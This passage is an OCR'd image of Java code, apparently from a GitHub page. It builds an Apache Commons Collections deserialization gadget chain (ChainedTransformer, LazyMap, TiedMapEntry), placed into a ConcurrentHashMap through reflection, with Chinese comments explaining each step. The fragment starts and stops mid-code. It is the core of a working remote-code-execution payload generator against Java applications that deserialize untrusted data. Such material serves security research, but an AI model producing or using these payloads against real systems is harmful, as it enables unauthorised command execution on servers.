 ```java
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/util/concurrent/ConcurrentHashMap.html
         * http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/jdk8u232-ga/src/share/classes/java/util/concurrent/ConcurrentHashMap.java
         *
         * ConcurrentHashMap(int initialCapacity)
         */
        ConcurrentHashMap
                        chm         = new ConcurrentHashMap( 1 );
        /*
         * 原始意图是:
         *
         * chm.put( tme, "value" );
         *
         * 但不能直接这么写。因为chm.put()会触发LazyMap.get():
         *
         * ConcurrentHashMap.put
         *   ConcurrentHashMap.putVal
         *     TiedMapEntry.hashCode
         *       TiedMapEntry.getValue
         *         LazyMap.get
         *
         * 必须用反射方式达此目的。
         */
        chm.put( "key", "value" );
        Field           f           = ConcurrentHashMap.class.getDeclaredField( "table" );
        f.setAccessible( true );
        /*
         * 假设前面chm只put()了一次，此处取上来的table[]有两个元素，一个是
         * key=value，另一个是null。这与ConcurrentHashMap在JDK 8中的底层实
         * 现相关。
         */
        Object[]        table       = ( Object[] )f.get( chm );
        /*
         * 本例中一般table[1]是我们要找的，但保险起见，还是这么写吧
         */
        Object          node        = table[1];
        if ( node == null )
        {
            node    = table[0];
        }
        /*
         * 这个"key"是成员变量名
         */
        Field           k           = node.getClass().getDeclaredField( "key" );
        k.setAccessible( true );
        /*
         * 用反射方式修改chm中某个key为tme。这个操作序列相当于但不等价于:
         *
         * chm.put( tme, "value" );
         */
        k.set( node, tme );
        /*
         * 用内存做中转站
```